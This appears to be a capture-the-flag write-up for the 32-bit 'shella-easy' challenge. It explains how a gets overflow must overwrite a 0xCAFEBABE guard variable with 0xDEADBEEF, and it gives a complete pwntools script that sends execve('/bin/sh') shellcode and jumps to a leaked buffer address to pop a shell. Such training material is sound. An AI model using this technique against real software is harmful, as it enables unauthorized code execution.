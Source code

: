 # App

![image](https://user-images.githubusercontent.com/115867891/206499219-80b7668c-7137-4847-95b5-5349c511b004.png)

32-bit, no mitigations

# Dissasembly

![image](https://user-images.githubusercontent.com/115867891/206500127-a3a2a4f6-1bb7-4480-b8fc-6faedbb53485.png)

Basically same as the rest shellcode CTFs but with an extra "challenge". From the start of the buffer for `gets` until the ret address there are 
0x48 + 0x8 bytes, however we must first overwrite the variable located at `[ebp-0x8]` to be `0xDEADBEEF` instead of `0xCAFEBABE`. The distance
between buffer and that variable is 0x44.

This means we need:

`shellcode` + `NOPs until 0xCAFEBABE` + `0xDEADBEEF` + `NOPs until ret addr`

# Exploit

```
from pwn import *
import re

target = process('./shella-easy')

# Scan line
leak = target.recvline()

# Strip away the characters not part of our address
shellcodeAdr = int(str(leak).split()[4][2:], 16)
print("Leaked addr : ", shellcodeAdr)

SIZE_VAR_TO_OWR = 0x4
deadbeef = p32(0xdeadbeef)

# Make the payload
payload = b""

buf =  b""
buf += b"\x31\xc9\xf7\xe1\xb0\x0b\x68\x2f\x73\x68\x00\x68\x2f"
buf += b"\x62\x69\x6e\x89\xe3\xcd\x80"

# Add the shellcode                                   
payload += buf

# Add NOPS that will read the beginning of the 0xCAFEBABE
payload += b"\x90" * (0x44 - len(payload) - SIZE_VAR_TO_OWR)

# Overwrite 0xCAFEBABE with 0xDEADBEEF and reach return address
payload += deadbeef + b"\x90" * 0x8

# Overwrite return address with the leaked address (start of the shellcode)
payload += p32(shellcodeAdr)

print("Size : ", hex(len(payload)))
# Send the payload
target.sendline(payload)

# Drop to an interactive shell to use our newly popped shell
target.interactive()
```

![image](https://user-images.githubusercontent.com/115867891/206500803-b0410415-910a-421c-90a8-09f6d6d71258.png)

